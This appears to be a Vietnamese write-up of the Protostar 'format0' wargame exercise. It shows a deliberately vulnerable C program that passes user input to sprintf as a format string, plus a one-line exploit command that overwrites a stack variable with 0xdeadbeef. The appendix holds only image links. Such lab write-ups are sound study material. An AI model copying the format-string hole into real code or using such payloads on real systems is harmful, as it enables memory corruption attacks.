# Format zero
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```


Bài này chúng ta sẽ gửi một string có độ dài 64byte `%64d` rồi đến `0xdeadbeef`, cũng tương tự như stack overflow

```
/format0 $(python -c "print '%64d' + '\xef\xbe\xad\xde'")
```

# Phụ lục
## Tổng quan về format string


















